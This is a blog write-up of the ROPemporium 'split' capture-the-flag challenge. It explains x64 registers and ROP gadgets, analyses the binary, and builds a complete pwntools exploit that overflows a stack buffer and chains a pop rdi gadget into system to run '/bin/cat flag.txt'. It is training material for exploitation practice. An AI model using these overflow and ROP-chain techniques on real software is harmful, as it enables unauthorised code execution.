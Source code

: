 #+title: ROPemporium | Split
#+date: <2021-03-28 12:56>
#+description: 
#+filetags: ROPemporium overflow ropgadget write-up exploitation

* DONE Introduction
Welcome to my write-up for the second challenge on [[https://ropemporium.com][ROPemporium]], called ~split~.
This challenge is almost the same as the previous challenge, ~ret2win~ which I've covered in this post [[https://c3lphie.com/2021-03-22-ropemporium-ret2win.html][ROPemporium | ret2win]], but adds a little twist to increase the diffyculty.

But before I get to that, there is some prerequisite knowledge that is necessary to understand before we can complete this challenge.
We need to understand what registers are, and how we can use them to our advantage.
Then there is also the concept of ROPgadgets, which is the main element of return oriented programming.
** DONE Wtf is a register?
In my last post I briefly mentioned that through the manipulation of registers we could execute arbitrary code.
And we also proved that in fact could control what was executed next.

But there's a lot more power in the registers when doing ROP.

Like last time, let us look at what [[https://en.wikipedia.org/wiki/Processor_register][Wikipedia]] has to say:
#+begin_quote
A processor register is a quickly accessible location available to a computer's processor. Registers usually consist of a small amount of fast storage, although some registers have specific hardware functions, and may be read-only or write-only.
#+end_quote

The way registers are implemented, the number of them, their size and how they are utilized can differ a lot between the different architectures.
So I'll try and write as generally as I can, but my main focus will be on the x64 because it is very widespread and the one i currently use.

#+caption: 64- and 32-bit register overview (Source: [[https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/x64-architecture][x64 Architecture - Microsoft]] and [[https://wiki.osdev.org/CPU_Registers_x86-64][CPU Registers x86-64 - OSDev]])
|--------+--------+-----------------------------------------|
| 64-bit | 32-bit | Short description                       |
|--------+--------+-----------------------------------------|
| rip    | eip    | Instruction Pointer                     |
| rax    | eax    | Accumulator                             |
| rbx    | ebx    | Base                                    |
| rcx    | ecx    | Counter                                 |
| rdx    | edx    | Data (commonly extends A regs)          |
| rsi    | esi    | Source Index for string operations      |
| rdi    | edi    | Destination index for string operations |
| rbp    | ebp    | Base pointer                            |
| rsp    | esp    | Stack pointer                           |
| r8     | r8d    | General purpose                         |
| r9     | r9d    | General purpose                         |
| r10    | r10d   | General purpose                         |
| r11    | r11d   | General purpose                         |
| r12    | r12d   | General purpose                         |
| r13    | r13d   | General purpose                         |
| r14    | r14d   | General purpose                         |
| r15    | r15d   | General purpose                         |
|--------+--------+-----------------------------------------|

I would also like to point out that there are more registers in a processor than those you see here, these are just the ones we have access to.

The first register is a special register, that is used to indicate where the computer is in the program sequence.

The rest is general purpose, but as you can see on the table, there are some that are used for special things.
That is however only according to calling conventions, which most software sticks to.

The ones we are most interested in when doing ROP are:
- rbp :: As we learned last [[https://c3lphie.com/2021-03-22-ropemporium-ret2win.html][post]], this is register holds the return address of the function.
- rsp :: The stack pointer, it points to addresses in the stack.
- rax :: Holds the return value of a function.
- rdi, rsi, rdx :: Usually used for storing function parameter values.

An amazing tool to see which registers are used for what function parameters for linux libc follow [[https://filippo.io/linux-syscall-table/][this link]].

** DONE ROP gadgets
According to the paper [[https://www.exploit-db.com/docs/english/28479-return-oriented-programming-(rop-ftw).pdf][Return-Oriented-Programming (ROP FTW)]], ROP gadgets are small instruction sequences that end in a ~ret~ instruction or ~0xc3~ if looking at a hexdump of a binary.

(Btw, I can highly recommend reading this paper if you're interested in ROP)

The reason for these gadgets needing to end with a ~ret~ instruction, is to allow the creation of a chain of gadgets.

When trying to find these gadgets the following algorithm can be used:
1. Search the binary for all ~ret~ bytes
2. Go back and see if previous byte contains a valid instruction. Do this for up do 20 bytes
3. Record all valid instruction sequences found in the binary or linked libraries.

Fortunalety there are already tools made for this:
 - https://github.com/sashs/Ropper
 - https://github.com/JonathanSalwan/ROPgadget

I use ~ropper~, but I think ~ROPgadget~ will do just as good a job.

The paper, linked above, describes five uses for gadgets:
 - Load constant into register
 - Load from memory
 - Storing into memory
 - Arithmetics
 - System calls

The gadgets functionality depends on what intruction it starts with.
If the gadget starts with ~pop~ or ~push~, they can be used to manipulate registers, where gadgets starting with the ~call~ instruction is used to make system calls.

These two types of gadgets are the ones you will need to find in order to complete this challenge.
* DONE Recon
Again before I do any actual exploitation, I'll try to gather as much information as possible about the target.
I know that I'm kinda repeating my self, but research is important.
And you need to have a better understanding of how the software works than the guy/gal that wrote the software.
At least to some degree, no one is omniscient(as far as i know atleast), and that is okay.

The most important thing in this case is that we learn about ROP so recon is minimal in this case.
** DONE File
The output here is exactly the same as last post, except for the name of the binary.
But I'll keep it here for good measure.
#+begin_example
┌────[~/ha/bi/ropemporium/split on  master [?]
└─>file split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
#+end_example
** DONE Checksec
Same situation for ~checksec~'s output, if you need a refresher read my [[https://c3lphie.com/2021-03-22-ropemporium-ret2win.html][last post]].
#+begin_example
┌────[~/ha/bi/ropemporium/split on  master [?]
└─>checksec split
[*] '/home/c3lphie/hacking/binary_exploitation/ropemporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
#+end_example
** DONE Static analysis
Once again we go through static analysis of the binary before we begin our exploit.

*** DONE Strings
First thing we should do, that I didn't last time, is to look at the strings in the binary.
Because they might give us some usefull information, or clues as to how this challenge should be completed.

This is also often the case in CTF challenges.
#+caption: Strings with memory addresses found in Binary Ninja
[[file:~/repositories/blog/static/pics/split_strings.png]]

And if I could point your attention to the last string, you'll see the ~/bin/cat flag.txt~, which we will need for our exploit.

So let's note down that adress ~0x00601060~ for future use!
*** DONE Main function
#+caption: main function dissasembled
#+begin_src  asm
  push    rbp {__saved_rbp}
  mov     rbp, rsp {__saved_rbp}
  mov     rax, qword [rel stdout]
  mov     ecx, 0x0
  mov     edx, 0x2
  mov     esi, 0x0
  mov     rdi, rax
  call    setvbuf
  mov     edi, 0x4007e8  {"split by ROP Emporium"}
  call    puts
  mov     edi, 0x4007fe  {"x86_64\n"}
  call    puts
  mov     eax, 0x0
  call    pwnme
  mov     edi, 0x400806  {"\nExiting"}
  call    puts
  mov     eax, 0x0
  pop     rbp {__saved_rbp}
  retn     {__return_addr}
#+end_src
Again like in my last post, there is not that much of interest here, except for the ~call~ for the ~pwnme~ function.
Which again the main focus of for exploitation.
*** DONE pwnme function
#+caption: pwnme function disassembled
#+begin_src asm
  push    rbp {__saved_rbp}
  mov     rbp, rsp {__saved_rbp}
  sub     rsp, 0x20
  lea     rax, [rbp-0x20 {buffer}]
  mov     edx, 0x20
  mov     esi, 0x0
  mov     rdi, rax {buffer}
  call    memset
  mov     edi, 0x400810  {"Contriving a reason to ask user …"}
  call    puts
  mov     edi, 0x40083c
  mov     eax, 0x0
  call    printf
  lea     rax, [rbp-0x20 {buffer}]
  mov     edx, 0x60
  mov     rsi, rax {buffer}
  mov     edi, 0x0
  call    read
  mov     edi, 0x40083f  {"Thank you!"}
  call    puts
  nop     
  leave    {__saved_rbp}
  retn     {__return_addr}
#+end_src
Instead of just focusing on the HLIL version of the function, like last time, this time we're going to compare the two versions to get a better understanding of how assembly works.
#+caption: pwnme function HLIL
#+begin_src c
  void buffer
  memset(&buffer, 0, 32)
  puts(str: "Contriving a reason to ask user …")
  printf(format: data_40083c)
  read(fd: 0, buf: &buffer, nbytes: 96)
  return puts(str: "Thank you!")
#+end_src
And as you can see in both examples I already cleaned them up a bit, just so it's easier to understand.

#+caption: Side-by-side comparison. Left disass, right HLIL
[[file:~/repositories/blog/static/pics/split_pwn_disass_hlil.png]]
Here is a side by side comparison between the to versions.
First we create the variabel ~buffer~, which is then initialized with ~memset~.
The three ~mov~ instructions above ~memset~ prepares the arguments by moving the values into the corresponding registers.
It fills 32 bytes with zero's starting at the address of ~buffer~.

This method of preparing the registers before the ~call~ instructions is, as you can see, how function arguments are set down at this level.

Anyway, just before the ~read~ call, the arguments are set.
~edx~ gets the value ~0x60~ which in decimal is 96, which is the max amount of bytes the ~read~ function will accept.
~rsi~ is then set to ~rax~ which acts as the buffer variable.

So what happens here is that first the 32 bytes are allocated as ~0x0~ with ~memset~, then down at ~read~ we can suddenly write up to 96 bytes with whatever data that we wan't.
The fact that we can write more information into the buffer than was allocated at first, means that we have a buffer overflow.
*** DONE usefulFunction
#+caption: usefulFunction disassembled
#+begin_src asm
  push    rbp {__saved_rbp}
  mov     rbp, rsp {__saved_rbp}
  mov     edi, 0x40084a  {"/bin/ls"}
  call    system
  nop     
  pop     rbp {__saved_rbp}
  retn     {__return_addr}
#+end_src
So taking what we learned in [[*pwnme function][pwnme function]] about how arguments are prepared for functions in assembly, we see that the address for the string "/bin/ls" is moved into the ~edi~ register before calling ~system~.

This function isn't actually called in the binary, so it is only here for us to use in our exploit.
Since we don't want to run "/bin/ls" but "/bin/cat flag.txt", we can just grab the address for the ~call~ instruction.
Like the ~usefulData~ string I grabbed the address (~0x40074b~) from binary ninja and noted it down.

We'll need it later in our first ROP chain.
* DONE Exploitation
Now we are ready to begin exploiting the binary!
I won't go as much into detail about the buffer overflow, it is the exact same procedure as last time.
** DONE Buffer overflow
A quick recap of finding a basic buffer overflow.

I start with a basic template as you can see below.
#+begin_src python
  from pwn import *

  context.update(arch="amd64", os="linux")
  proc = process("./split")
  gdb.attach(proc, """
  break main
  """)

  def send_recv(buffer: bytes):
      proc.recvuntil(">")
      proc.send(buffer)

  payload = cyclic(100)

  send_recv(payload)
  proc.interactive()
#+end_src
Running this helps you find where base pointer is located on the stack.
I found the offset the be at ~0x6161616b~ in the cyclic sequence, so I used ~cyclic_find(0x6161616b)~ to calculate my padding.

The following exploit returns into ~usefulFunction~
#+begin_src python
  from pwn import *

  context.update(arch="amd64", os="linux")
  proc = process("./split")
  # gdb.attach(proc, """
  # break main
  # """)

  def send_recv(buffer: bytes):
      proc.recvuntil(">")
      proc.send(buffer)

  payload = cyclic(cyclic_find(0x6161616b))
  payload += p64(0x400742)

  send_recv(payload)
  proc.interactive()
#+end_src
Which calls ~/bin/ls~:
#+begin_example
┌────[~/ha/bi/ropemporium/split on  master [?]
└─>python exploit.py
[+] Starting local process './split': pid 384887
[*] Switching to interactive mode
 Thank you!
exploit.py  exploit.py~  flag.txt  README.org  README.org~  split  split.bndb
[*] Got EOF while reading in interactive
$
#+end_example

So let find our first gadget!
** DONE Finding gadgets
As mentioned earlier I'll be using ~ropper~ to find the ROP gadgets needed for this exploit.

In fact we only need one gadget for this ROP chain since we already have a ~system~ call.
So what we need to do is find a gadget that can ~pop~ an address into a register from the stack.
#+begin_example
┌────[~/ha/bi/ropemporium/split on  master [?]
└─>ropper -f split --console
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
(split/ELF/x86_64)>

#+end_example
I use the ~--console~ flag because it loads the entire binary once, which makes multiple searches faster.
Now all we gotta do is search for gadgets starting with a ~pop~ instruction.
#+begin_example
(split/ELF/x86_64)> search pop
[INFO] Searching for gadgets: pop

[INFO] File: split
0x00000000004007bc: pop r12; pop r13; pop r14; pop r15; ret;
0x00000000004007be: pop r13; pop r14; pop r15; ret;
0x00000000004007c0: pop r14; pop r15; ret;
0x00000000004007c2: pop r15; ret;
0x000000000040060b: pop rbp; mov edi, 0x601078; jmp rax;
0x00000000004007bb: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x00000000004007bf: pop rbp; pop r14; pop r15; ret;
0x0000000000400618: pop rbp; ret;
0x00000000004007c3: pop rdi; ret;
0x00000000004007c1: pop rsi; pop r15; ret;
0x00000000004007bd: pop rsp; pop r13; pop r14; pop r15; ret;

#+end_example
As you can see we have quite the list of candidates!

But why ~pop~ well, the instruction takes the element from the stack that the stack pointer points at, and puts it into the register coming after.
And since we have control of the stack elements, we can control the registers that we have ~pop~ gadgets for.

So which register do we want to ~pop~
Well the first argument is often the ~rdi~ register, so the gadget we're gonna use is: ~0x00000000004007c3: pop rdi; ret;~

And just take a note of that address.
** DONE Creating the chain
- State "DONE"       from "NEXT"       [2021-04-09 Fri 17:21]
#+caption: All the useful adresses we have collected
| Name       |   Adress |
|------------+----------|
| system     | ~0x40074b~ |
| usefulData | ~0x601060~ |
| popRdi     | ~0x4007c3~ |

Above you'll se the list of addresses we have collected so far.
All we have to do now is chain it together!

#+begin_src python
  from pwn import *

  ...

  popRdi = p64(0x4007c3)
  system = p64(0x40074b)
  usefulData = p64(0x601060)

  payload = cyclic(cyclic_find(0x6161616b))

  send_recv(payload)

  proc.interactive()
#+end_src
In the same python file from the [[*Buffer overflow][Buffer overflow]] section, I assigned the adresses as variables.
Then I simply add them in an order which chains them together (see were the name came from ;)).

But which order?
Well we should of course use the same order as it's done in assembly!
#+begin_src python
  from pwn import *

  ...

  popRdi = p64(0x4007c3)
  system = p64(0x40074b)
  usefulData = p64(0x601060)

  payload = cyclic(cyclic_find(0x6161616b))
  payload += popRdi
  payload += usefulData
  payload += system

  send_recv(payload)

  proc.interactive()
#+end_src
First we ~pop~ the ~usefulData~ address into the ~rdi~ register, and then we call ~system~

** DONE Final exploit
Here is the final exploit, which will show us the flag.
#+begin_src python
  from pwn import *

  context.update(arch="amd64", os="linux")
  proc = process("./split")
  # gdb.attach(proc, """
  # break main
  # """)


  def send_recv(buffer: bytes):
      proc.recvuntil(">")
      proc.send(buffer)

  popRdi = p64(0x4007c3)
  system = p64(0x40074b)
  usefulData = p64(0x601060)

  payload = cyclic(cyclic_find(0x6161616b))
  payload += popRdi
  payload += usefulData
  payload += system

  send_recv(payload)

  proc.interactive()
#+end_src

If we run it in the terminal we get the following flag:
#+begin_example
┌────[~/ha/bi/ropemporium/split on  master [?]
└─>python exploit.py
[+] Starting local process './split': pid 389100
[*] Switching to interactive mode
 Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$

#+end_example
An there you go ladies and gentlemen, we got the flag!

* DONE Conclusions
In this post we dove into what registers are and how they are used as parameters for functions in the 64-bit architecture.
We also looked closer at what ROP gadgets are, and how we can use chains of these gadgets to basically reprogram software to do our bidding,

Next one in line for this series is ROPemporiums callme challenge, where we'll learn to craft bigger chains without crashing the software afterwards.
